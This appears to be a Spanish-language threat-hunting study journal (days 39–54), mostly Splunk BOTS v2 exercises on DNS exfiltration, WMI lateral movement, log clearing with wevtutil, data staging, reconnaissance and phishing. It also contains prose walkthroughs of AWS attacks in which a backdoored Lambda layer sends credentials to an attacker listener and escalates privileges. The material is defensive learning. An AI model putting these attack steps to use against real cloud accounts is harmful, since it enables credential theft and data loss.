    <li>Realicé la búsqueda usando <code>index="botsv2" sourcetype="stream:dns" hildegardsfarm.com</code>.</li>
    <li>Enfatizo en los mensajes de tipo **QUERY**, ya que estos son los utilizados por los hosts internos para enviar datos embebidos en las consultas DNS a los adversarios.</li>
  </ul>
  <p><strong>URL Toolbox:</strong></p>
  <ul>
    <li>Descompuse las consultas DNS en subdominios, dominios de nivel superior, y otros componentes utilizando la herramienta URL Toolbox.</li>
    <li>Calculé la entropía de los subdominios para determinar si son generados automáticamente.</li>
  </ul>
  <p><strong>Consulta utilizada:</strong></p>
  <pre><code>index="botsv2" sourcetype="stream:dns" hildegardsfarm.com message_type=QUERY query=*.hildegardsfarm.com
| eval query=mvdedup(query)
| eval list="mozilla"
| ut_parse_extended(query,list)
| ut_shannon(ut_subdomain)
| table src dest query ut_subdomain ut_shannon</code></pre>
  <p>Los subdominios generados tienen un puntaje de entropía alto, lo que sugiere que son generados automáticamente por un algoritmo. Los datos parecen ser exfiltrados mediante consultas DNS, utilizando subdominios generados automáticamente, que embeben la información en las consultas.</p>
</details>

<details>
  <summary><strong>Día 40: Cazando un APT - Exfiltración DNS II</strong></summary>
  <p>Hoy realicé la segunda parte de la detección y prevención de la exfiltración de datos a través del protocolo DNS.</p>
  <p><strong>Resumen de los pasos seguidos en la práctica:</strong></p>
  <ul>
    <li>Consulté la fuente de datos <code>stream:dns</code> para monitorear eventos DNS relacionados con **hildegardsfarm.com**.</li>
    <li>Observé consultas inusuales y de alto volumen a subdominios de **hildegardsfarm.com**, indicativos de posible exfiltración de datos.</li>
    <li>Empleé la URL Toolbox para analizar los subdominios, destacando puntajes de entropía altos, sugiriendo generación automática por algoritmos.</li>
    <li>Visualicé la exfiltración de datos a través de DNS, notando la necesidad de dividir paquetes para evitar restricciones de firewall.</li>
  </ul>
  <p><strong>Una vez detectada la exfiltración, los pasos a seguir serían:</strong></p>
  <ul>
    <li>Agregar la IP **160.153.91.7** y el dominio **hildegardsfarm.com** a la lista de observación o bloqueo.</li>
    <li>Mantener un monitoreo constante de la entropía y longitud de subdominios en el tráfico DNS.</li>
    <li>Realizar análisis de tráfico en los sistemas para identificar y detectar anomalías.</li>
  </ul>
  <p>Puedes ver la práctica completa en el workspace: Análisis Completo</p>
</details>

<details>
  <summary><strong>Day 41: Hunting an APT - Lateral Movement</strong></summary>
  <p>Hoy he empezado un nuevo capítulo en mi fase de Hunting an APT. Me he dedicado a la identificación y análisis de posibles movimientos laterales en la red utilizando Windows Management Instrumentation (WMI). He aprendido que los adversarios pueden utilizar WMI para interactuar con sistemas locales y remotos, ejecutando archivos de forma remota y realizando funciones tácticas.</p>
  <p><strong>Búsqueda en Splunk:</strong></p>
  <ul>
    <li>Desarrollé una búsqueda en Splunk enfocada en eventos clave: 4624 (inicio de sesión exitoso en red) y 1 de Sysmon (creación de procesos).</li>
    <li>Excluí eventos con svchost.exe como proceso padre para reducir el ruido en los datos.</li>
    <li>Utilizando comandos de Splunk, extraje y evalué los campos Logon_ID y Security_ID.</li>
    <li>Creé transacciones basadas en el campo session para agrupar eventos relacionados.</li>
  </ul>
  <p><strong>Resultados:</strong></p>
  <p>Los resultados muestran que la estación de trabajo wrf-klagerf y el servidor venus presentan signos de ejecución utilizando la cuenta service3 desde sesiones de inicio de sesión en la red, sugiriendo posibles movimientos laterales mediante WMI.</p>
  <p><strong>Referencia:</strong></p>
  <p>Para más información sobre esta técnica de ataque, puedes consultar la <a href="https://attack.mitre.org/techniques/T1047/">página de MITRE ATT&CK</a>.</p>
</details>

<details>
  <summary><strong>Day 42: Hunting an APT - Lateral Movement II</strong></summary>
  <p>Continuando con el módulo de ayer, he profundizado en cómo los adversarios pueden aprovechar WMI (Windows Management Instrumentation) para interactuar con sistemas locales y remotos, permitiéndoles ejecutar archivos de forma remota y realizar diversas funciones tácticas.</p>
  <p>Para finalizar, he estado dedicado a la inspección detallada de sesiones de inicio de sesión en nuestra red. Mi enfoque ha sido utilizar los IDs de inicio de sesión, ya sea el Logon_ID de Sysmon o el LogonId de Wineventlog.</p>
  <p>Los análisis realizados hoy indican que los hosts internos "venus" y "wrk-klagers" han sido infectados mediante movimiento lateral desde "wrk-btun". El uso de PowerShell parece ser una herramienta clave utilizada por el adversario para facilitar este movimiento.</p>
  <p><strong>Conclusiones:</strong></p>
  <ul>
    <li>Configurar alertas para PowerShell codificado.</li>
    <li>Gestionar herramientas de administración remota de Windows.</li>
    <li>Monitorizar el uso de herramientas administrativas.</li>
    <li>Establecer alertas para secuencias específicas de eventos.</li>
    <li>Analizar los flujos de datos en el entorno.</li>
  </ul>
  <p>Puedes revisar la práctica en detalle en el <a href="https://nottaroff.github.io/workspace/docs/Hunting%20an%20APT/5.%20Lateral%20Movement/">workspace de Notaroff</a>.</p>
</details>

<details>
  <summary><strong>Day 43: Hunting an APT - Borrado de Registros</strong></summary>
  <p>Siguiendo en la investigación de diferentes tácticas que usan los adversarios, hoy me enfoqué en investigar una táctica comúnmente utilizada por los adversarios para cubrir sus huellas, el borrado de registros de eventos de Windows.</p>
  <p>En primera instancia, identifiqué los eventos de borrado de registros en Windows utilizando el código de evento 1102. Al buscar en los registros de eventos de Windows, vi que la estación de trabajo wrk-klagerf tuvo sus registros borrados y que la cuenta service3 fue responsable de esta acción.</p>
  <p>Analicé el uso del comando wevtutil.exe, que permite interactuar con los registros de eventos desde la línea de comandos. Encontramos referencias a este ejecutable tanto en Sysmon como en Wineventlog, lo que sugiere un uso continuado de este comando para borrar registros. Al profundizar en los registros de eventos de Windows y ordenar los eventos, observamos que wevtutil.exe se usó repetidamente con los argumentos "el" (para enumerar los registros) y "cl" (para borrar registros específicos).</p>
  <p>Este análisis reveló 485 eventos, indicando que probablemente se borraron todos los registros de Windows posibles en secuencia.</p>
</details>


<details>
  <summary><strong>Day 44: Hunting an APT - Borrado de Registros II</strong></summary>
  <p>Para finalizar este capítulo sobre la caza de borrado de registros, realicé un análisis detallado de los eventos registrados por Sysmon, centrándome en detectar actividades de borrado de registros. En la revisión, encontramos que wevtutil.exe se utilizó repetidamente para borrar registros, lo cual es una táctica común para ocultar actividades maliciosas.</p>
  <p>He estado recopilando consejos prácticos para fortalecer la seguridad frente al borrado de registros. Por ejemplo, se recomienda configurar políticas de grupo para registrar borrados, monitorear y alertar sobre el evento 1102, y el evento 4688 con líneas de comando específicas relacionadas con wevtutil.exe. También es importante revisar y actualizar las políticas de los sistemas para proteger los registros críticos que no deben ser eliminados.</p>
  <p>Puedes ver en detalle la práctica en el <a href="https://nottaroff.github.io/workspace/docs/Hunting%20an%20APT/6.%20Clearing%20Logs/">workspace de Notaroff</a>.</p>
</details>

<details>
  <summary><strong>Day 45: Hunting an APT - Remote Data Staging</strong></summary>
  <p>En un nuevo capítulo en la serie de Hunting an APT, hoy he observado posibles actividades relacionadas con la organización y exfiltración de datos en nuestra red.</p>
  <p>En particular, he investigado los archivos que se usarían en un entorno de oficina, como documentos PDF, Word, Excel y archivos comprimidos. Esto me llevó a observar detenidamente el protocolo SMB (Server Message Block) utilizado para compartir archivos en entornos de red, especialmente en entornos Windows.</p>
  <p>Mi investigación se centró en un archivo específico identificado como "31564-pdf.pdf" dentro del conjunto de datos SMB. Analicé las transacciones relacionadas con este archivo, observando patrones de flujo de datos y comandos utilizados. En particular, me enfoqué en comandos como "smb2 read", "smb2 create" y "smb2 close", los cuales revelaron cómo se estaban manipulando y transfiriendo los datos en cuestión.</p>
  <p>He conseguido identificar una actividad significativa de transferencia de datos entre la estación de trabajo de Billy Tun y el servidor Venus. Observé que una cantidad considerable de datos estaba siendo transferida desde el servidor hacia la estación de trabajo, lo cual podría ser un posible movimiento de información desde el servidor hacia un dispositivo local.</p>
  <p>Para obtener más información sobre esta técnica de ataque, puedes consultar la <a href="https://attack.mitre.org/techniques/T1074/">página de MITRE ATT&CK</a>.</p>
</details>

<details>
  <summary><strong>Day 46: Hunting an APT - Remote Data Staging II</strong></summary>
  <p>Siguiendo con la sesión anterior sobre la exfiltración de datos de nuestra red, hoy investigué el conjunto de datos relacionados con FTP, detectando actividades sospechosas que sugieren una posible exfiltración de datos. Por ejemplo, la estación de trabajo de Billy (IP: 10.0.2.107) subió un archivo PDF a un servidor externo (IP: 160.153.91.7), lo que indica un posible caso de exfiltración a través de FTP.</p>
  <p>Además, al analizar los datos de SMB, observé que varios documentos, principalmente archivos PDF, se transfirieron desde un servidor interno (IP: 10.0.1.101) a la estación de trabajo de Billy, y luego se enviaron al servidor externo mencionado.</p>
  <p>Para mejorar nuestras capacidades de detección y prevención, se deben considerar las siguientes acciones:</p>
  <ul>
    <li>Realizar un análisis de anomalías en la comunicación entre la estación de trabajo y el servidor.</li>
    <li>Registrar los puntos finales para monitorear los datos escritos en el sistema de archivos.</li>
    <li>Mejorar el registro de la red para capturar transferencias de datos entre enclaves.</li>
    <li>Buscar actividades posteriores, como transferencias de archivos a direcciones externas o escrituras a dispositivos USB.</li>
  </ul>
  <p>Puedes encontrar la práctica completa en el <a href="https://nottaroff.github.io/workspace/docs/Hunting%20an%20APT/7.%20Data%20Staging/">workspace de Notaroff</a>.</p>
</details>

<details>
  <summary><strong>Day 47: Hunting an APT - Reconnaissance</strong></summary>
  <p>En el capítulo de hoy me enfoqué en la caza de reconocimiento, buscando identificar posibles adversarios que podrían haber sido descuidados en sus métodos.</p>
  <p>Encontré detalles específicos relacionados con un posible ataque que ocurrió en agosto de 2017, afectando al sitio web de la empresa ejemplo, www.froth.ly. Al examinar cadenas de agente de usuario sospechosas, identifiqué una en particular que se destacó: Mozilla/5.0 (X11; U; Linux i686; ko-KP; rv: 19.1br) Gecko/20130508 Fedora/1.9.1-2.5.rs3.0 NaenaraBrowser/3.5b4. Este navegador, Naenara, es la versión de Firefox utilizada en la República Popular Democrática de Corea (RPDC), e integrada en el sistema operativo Red Star, el cual es el sistema oficial de Corea del Norte.</p>
  <p>Haciendo la búsqueda en Splunk, pude identificar 2 IPs internas y 3 IPs externas. Al cruzar la información de activos con las IPs internas, descubrí que una de ellas (172.31.4.249) pertenecía a Kevin Lagerfield, con el nombre de host "gacrux". Kevin ha accedido a varios sistemas, incluyendo AWS, brewertalk, linux, mysql y web. La otra IP interna (172.31.6.251) no se encontraba en la hoja de activos, pero parece ser que era la IP de nuestro sitio web corporativo.</p>
</details>

<details>
  <summary><strong>Day 48: Hunting an APT - Reconnaissance II</strong></summary>
  <p>En la segunda parte del ejercicio de reconocimiento, hoy he trabajado en el análisis de la visibilidad pública de nuestra web corporativa, centrándome en cómo los adversarios pueden recopilar información sobre nosotros antes de un ataque. Esto se basa en la técnica del MITRE ATT&CK T1593, que se enfoca en la búsqueda de sitios web y dominios abiertos.</p>
  <p>Utilicé Splunk para buscar accesos a nuestro sitio web de ejemplo mediante un agente de usuario específico (NaenaraBrowser), que habíamos identificado previamente como sospechoso. Confirmé que este agente de usuario ha estado navegando por nuestros activos web y accediendo a una hoja de cálculo con contactos de la empresa. Identificamos que este navegador tiene origen en Corea del Norte. Encontramos la dirección IP asociada con el navegador, que accedió a los contactos de la empresa desde nuestro sitio web. Esto podría permitir al adversario tener acceso a información sensible y potencialmente dirigir ataques a nuestros empleados.</p>
  <p>Como siguientes pasos se ha concluido que debemos entender la visibilidad pública de la organización y monitorear a los ejecutivos clave que son bien conocidos. Es necesario determinar si todos los empleados necesitan el mismo nivel de visibilidad y monitorear si su información aparece públicamente. Debemos prestar especial atención a nuestro sitio web y otros activos corporativos, minimizando la información OSINT disponible sobre empleados y activos informáticos. Además, podemos sembrar objetos con información errónea en la organización, incluyendo el sitio web, que luego puedan ser monitoreados para detectar actividad adversaria y hacer que los atacantes inviertan más esfuerzo en sus intentos.</p>
</details>


<details>
  <summary><strong>Day 49: Hunting an APT - Initial Access</strong></summary>
  <p>En el ejercicio de hoy vi una ataque a nuestra red, identificando los vectores de acceso inicial. Durante esta investigación, identificamos que el acceso inicial se logró mediante un archivo adjunto en un correo electrónico de spear phishing. Realicé análisis detallados de los archivos adjuntos y en los registros de correo electrónico. Descubrimos que el intento de phishing se llevó a cabo dos veces, con el segundo intento posiblemente siendo exitoso.</p>
  <p>Finalmente, encontramos que el mismo remitente envió correos electrónicos idénticos a cuatro destinatarios. Estos correos tenían el mismo asunto y contenido, lo que sugiere una estrategia de ataque dirigida específicamente a estos destinatarios. Además, observamos que los correos electrónicos se enviaron en un corto intervalo de tiempo, pero de manera individual, lo que podría indicar un intento de evitar la detección.</p>
  <p>En conclusión, parece que nuestra empresa fue probablemente víctima de phishing a través de un archivo adjunto en un correo electrónico. Ambos intentos de phishing estuvieron dirigidos a los mismos destinatarios, con el mismo remitente, asunto y contenido en ambos casos. Aunque el primer intento fue detectado como un troyano, el segundo intento no generó ninguna alerta, lo que sugiere que podría haber sido exitoso.</p>
</details> 


<details>
  <summary><strong>Day 50: Threat hunting para amenazas internas</strong></summary>
  <p>Después de terminar los ejercicios de Threat hunting (Hunting an APT) de Splunk Boss of the SOC, decidí continuar con el guion que había planteado desde el primer momento para acabar los puntos teóricos que me faltan.</p>
  <p>Así que el día de hoy he estado estudiando la identificación y mitigación de amenazas internas. Principalmente tres tipos de amenazas internas: las provenientes de personas malintencionadas, negligentes y comprometidas.</p>
  <ul>
    <li>Las personas malintencionadas: Buscan dañar la organización por venganza o beneficio económico. Un punto de mitigación a ello sería implementar gestión de acceso y monitorización continua de cuentas inactivas.</li>
    <li>Las personas internas negligentes: Representan un riesgo debido a su falta de conocimiento o descuido en seguridad. Para mitigarlo se podría aplicar una capacitación continua y la implementación de políticas claras sobre el manejo de datos sensibles.</li>
    <li>Las personas internas comprometidas: Son usuarios legítimos cuyas credenciales han sido comprometidas por atacantes externos. Para mitigar esto se podría implementar una autenticación multifactor y el monitoreo de comportamientos anómalos como estrategias clave.</li>
  </ul>
  <p>También he visto algunos de los indicadores clave para su detección, como el acceso no autorizado y cambios en el comportamiento del usuario. Para reforzar la postura de seguridad, se puede implementar diversas estrategias: como la creación y comunicación de políticas claras, el control de acceso basado en el principio de mínimo privilegio, la autenticación multifactor y la capacitación regular del personal. También es importante un monitoreo continuo de la actividad del usuario y la red, junto con simulaciones de ataques para identificar y corregir vulnerabilidades.</p>
</details>

<details>
  <summary><strong>Day 51: Threat hunting an APT</strong></summary>
  <p>Al terminar los apartados prácticos de Hunting an APT, he querido realizar un pequeño apartado sobre los conceptos que he recopilado.</p>
  <p>He podido destacar que las APT se dirigen a organizaciones específicas con objetivos claros como el robo de propiedad intelectual y el espionaje, operando durante largos periodos y utilizando técnicas avanzadas. Estas amenazas emplean métodos de sigilo y evasión, como cifrado de comunicaciones y el uso de herramientas legítimas del sistema, y sus fines suelen estar relacionados con el espionaje y la perturbación de operaciones críticas.</p>
  <p>Para el hunting de APTs, he visto que es fundamental conocer sus Tácticas, Técnicas y Procedimientos (TTPs). Las tácticas incluyen estrategias generales como la persistencia y el movimiento lateral; las técnicas abarcan métodos específicos como la explotación de vulnerabilidades y el phishing; y los procedimientos detallan la implementación de estas técnicas.</p>
  <p>Al finalizar las conclusiones es importante destacar la evolución constante de los APTs y la necesidad de adelantarse a las amenazas mediante la inteligencia de fuentes abiertas OSINT y plataformas de inteligencia de amenazas. Estas herramientas enriquecen los indicadores de compromiso con información contextual y facilitan la colaboración entre profesionales de la seguridad.</p>
</details>

<details>
  <summary><strong>Day 52: Threat hunting in cloud</strong></summary>
  <p>En el día de hoy he recopilado información sobre los desafíos y técnicas de seguridad en entornos de nube.</p>
  <p>Los principales desafíos de seguridad que enfrentamos al adoptar servicios en la nube incluyen la dificultad para mantener visibilidad y control debido a la naturaleza dinámica de estos entornos, los riesgos adicionales derivados del alojamiento de datos de múltiples clientes en la misma infraestructura y las vulnerabilidades causadas por configuraciones predeterminadas o incorrectas. También existe confusión sobre la división de responsabilidades entre el proveedor y el cliente, lo que puede llevar a malentendidos sobre quién es responsable de qué aspectos de la seguridad.</p>
  <p>En cuanto a las técnicas específicas para cazar amenazas en la nube, es importante analizar logs de eventos y accesos proporcionados por los proveedores de servicios en la nube, como AWS CloudTrail y Azure Monitor, para detectar comportamientos inusuales. También es esencial utilizar herramientas nativas de seguridad, como AWS GuardDuty y Azure Security Center, y monitorear el tráfico de red.</p>
  <p>Para asegurar las cargas de trabajo en la nube es necesario integrar prácticas de seguridad desde el inicio del ciclo de desarrollo (DevSecOps), implementar políticas estrictas de gestión de identidades y accesos (IAM) para asegurar que solo las personas y servicios autorizados puedan acceder a los recursos críticos, y asegurando que todos los datos, tanto en tránsito como en reposo, estén cifrados y que las claves se gestionen de manera segura.</p>
</details>


<details>
  <summary><strong>Day 53: Threat hunting in cloud - Privilege Escalation via AWS Lambda</strong></summary>
  <p>Ayer vi una pequeña introducción al Threat hunting en la nube. Hoy quería ver un poco la parte práctica. Así que hice un taller de un ataque en la nube que involucró a un hacker que obtuvo credenciales de un usuario de AWS con bajos privilegios y sin acceso a S3. El atacante utilizó estas credenciales para ejecutar el comando list-functions en diferentes regiones y encontrar funciones Lambda accesibles.</p>
  <p>El hacker descubrió una función Lambda con runtime en Python y, en su propia cuenta de AWS, creó una capa comprometida con una puerta trasera, haciéndola pública. Luego, usó el usuario de bajos privilegios en la cuenta de la víctima para actualizar la configuración de la función Lambda e insertar la capa comprometida.</p>
  <p>Esta capa comprometida contenía una carga útil que enviaba datos críticos y sensibles a la máquina del atacante cuando se invocaba la función Lambda. El atacante configuró una máquina de escucha con una IP pública, esperando en el puerto 4444 para recibir estos datos. Al llamar la función Lambda, el hacker recibía información como el ID de clave de acceso, la clave de acceso secreta y el token de sesión, permitiéndole ejecutar el comando aws s3 ls para encontrar y exfiltrar datos sensibles.</p>
  <p>Para investigar el ataque, el taller utiliza la herramienta CloudGuard, donde se puede extraer la siguiente información:</p>
  <ul>
    <li>Abuso del Token de Acceso de Lambda: Uso indebido del token desde una IP externa.</li>
    <li>Serie de Llamadas API de Enumeración: Detectó la ejecución de list-functions en varias regiones, indicando un intento de movimiento lateral y escalada de privilegios.</li>
    <li>Adición de una Capa de Lambda desde una Cuenta Externa: Inserción de una capa desde una cuenta de AWS externa.</li>
    <li>Actualización de Configuración de Lambda: Esto puede ayudar a entender cómo el atacante exfiltró las credenciales sensibles.</li>
  </ul>
</details>

<details>
  <summary><strong>Day 54: Threat hunting in cloud - Lateral Movement</strong></summary>
  <p>Hoy observé un nuevo ejemplo de caza de amenazas en un entorno de nube, específicamente la detección de movimiento lateral. El ataque comenzó con la obtención de claves de acceso de AWS comprometidas, que permitieron al atacante generar credenciales temporales usando el comando get-session-token para evadir la defensa. Verificaron el acceso al historial de eventos de la cuenta mediante el comando lookup-events, confirmando que el usuario comprometido tenía permisos de solo lectura. Esto les permitió descubrir que el usuario había ejecutado el comando AssumeRole para asumir el rol LambdaCreator, obteniendo información clave como la región por defecto y el ARN del rol.</p>
  <p>El atacante verificó los eventos realizados por el rol LambdaCreator y encontró que se había configurado y actualizado el código de una función llamada Automation-UpdateSSMParam. Utilizando el comando sts assume role, escaló privilegios al rol LambdaCreator. Intentaron el comando get-function pero recibieron un error de acceso denegado. Entonces recurrieron a la ingeniería social, descubriendo mediante una búsqueda en Google que el rol asociado a la función tenía permisos de AmazonSSMFullAccess. Aprovechando el permiso UpdateFunctionConfiguration, inyectaron una capa maliciosa en la función, creando esta capa en su propia cuenta de AWS y haciéndola públicamente disponible.</p>
  <p>El atacante insertó la capa maliciosa en la cuenta de la víctima usando el comando UpdateFunctionConfiguration. Una vez invocada la función, la capa maliciosa envió todas las variables de entorno, incluyendo el token STS del rol de la función, al atacante. Con este token, iniciaron una sesión en una instancia EC2 usando el API SSM start session y extrajeron el nombre del rol de la instancia: DynamoDBFullAccess. Accedieron a las tablas de DynamoDB, revelando información sensible.</p>
</details>